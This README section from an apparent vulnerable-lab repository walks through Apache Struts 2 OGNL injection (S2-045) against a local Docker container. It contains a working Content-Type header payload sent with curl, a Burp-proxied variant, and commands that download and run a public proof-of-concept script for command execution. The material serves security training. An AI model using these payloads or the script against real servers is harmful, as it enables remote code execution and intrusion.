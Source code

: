 # 5. Apache Struts 2 OGNL Injection S2-045
## What it does
Apache Struts allows for injecting malicious Content-Type header which is later evaluated as OGNL Expression Language code. \
If an attacker is able to change security measures by executing appropriate OGNL code first, then there is possibility of regular Code Execution. \
If this vulnerability seem complex, please refer to "Recommended reading" section for useful lectures.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 5-apache-struts-2
docker-compose up -d
```

### Exploit:
```
curl -XPOST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```
### Proxy curl via Burp:
```
curl -XPOST --proxy http://127.0.0.1:8080 -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```

![image](https://user-images.githubusercontent.com/31791455/140393499-ab5e5463-ea74-46c0-a746-c8457c23f773.png)


### Code execution:
The exploit requires unlocking some OGNL features before you can pass from simple code evaluation to full RCE.
Ready to use exploit can be found here: 
```
wget https://raw.githubusercontent.com/Medicean/VulApps/master/s/struts2/s2-045/poc.py
chmod +x ./poc.py
python2 poc.py "http://127.0.0.1:8080" "id"
```

![image](https://user-images.githubusercontent.com/31791455/140393300-96dba119-0002-4c2a-af5b-0a1704484a0a.png)


### Explanation
Apache Struts is a free, open-source framework for creating Java applications. It utilizes native dialect named OGNL (Object-Graph Navigation Language). It can be parsed in form of expressions, which makes related vulnerabilities similar to Server-Side Template Injections (in fact, it works in the same way as SSTIs).

### References and recommended reading
https://portswigger.net/research/server-side-template-injection \
https://mindedsecurity.com/wp-content/uploads/2020/10/ExpressionLanguageInjection.pdf \
https://www.reshiftsecurity.com/ognl-injection-primer-for-java-developers/ \
https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts/ \
https://nsfocusglobal.com/apache-struts2-remote-code-execution-vulnerability-s2-045/

### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/struts2/s2-045
